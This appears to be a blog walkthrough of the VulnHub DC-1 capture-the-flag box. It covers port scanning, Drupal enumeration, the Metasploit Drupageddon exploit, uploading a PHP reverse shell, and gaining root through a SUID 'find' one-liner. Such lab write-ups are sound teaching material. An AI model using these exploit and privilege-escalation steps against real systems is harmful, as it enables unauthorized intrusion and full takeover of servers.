 ```yaml
---
layout: "post"
title: "DC 1 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-1, easy, Drupal, suid]
---
```

DC-1 was a simple and straightforward `CVE` based box. We find the server is hosting `Drupal CMS`. I saw that Drupal version had a CVE which allowed me drop a `webshell` in webserver. Priv esc to root by exploiting `find SUID binary`. 

# Summary
- Portscan
- Drupal Enumeration
- Exploting drupal to get shell
- Privilege Escalation by exploting SUID binary
- Getting Root
- Final Flag

# Portscan

```
Nmap scan report for 192.168.1.12
Host is up (0.00022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```
# Drupal
I visit the website. I find that server is running Drupal CMS. I don't have any idea about drupal so I search online and findout `droopescan` tool. I installed it and run it.

For installation:
```bash
pip install droopescan
```

After installation I run `droopescan`.

![droopescan](/assets/img/dc-1/droopescan.png)

# Initial Shell
From scan I find out some useful stuff but drupal version grab my attention.Then I findout exploits on `searchsploit`.
```bash
searchsploit drupal 7
``` 
![searchsploit](/assets/img/dc-1/searchsploit.png)

I start metasploit and used the exploit.

```
use exploit/multi/http/drupal_drupageddon
set rhosts 192.168.1.12
run
```

![meterpreter_shell](/assets/img/dc-1/meterpreter_shell.png)
In this way I have meterpreter session
## Flag 1 
After getting shell I found ```flag1.txt``` 
![flag1](/assets/img/dc-1/flag1.png)

## Netcat Shell
Now I have meterpreter so tried to launch shell and run the commands but due to some reasons I am not able to run commands.
![not working shell](/assets/img/dc-1/not_working_shell.png)
 The metasploit shell is not working so that I shift to netcat shell by uploading ```php-reverse-shell```.

![upload_shell](/assets/img/dc-1/upload_shell.png)

![nc_shell](/assets/img/dc-1/nc-shell.png)

# Privesc to Root

After some enumeration I noticed that ```find``` has SUID bit set, we can run the commands as root.
With one simple command we get root.

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
![root](/assets/img/dc-1/root.png)
## Final Flag
![finalflag](/assets/img/dc-1/finalflag.png)

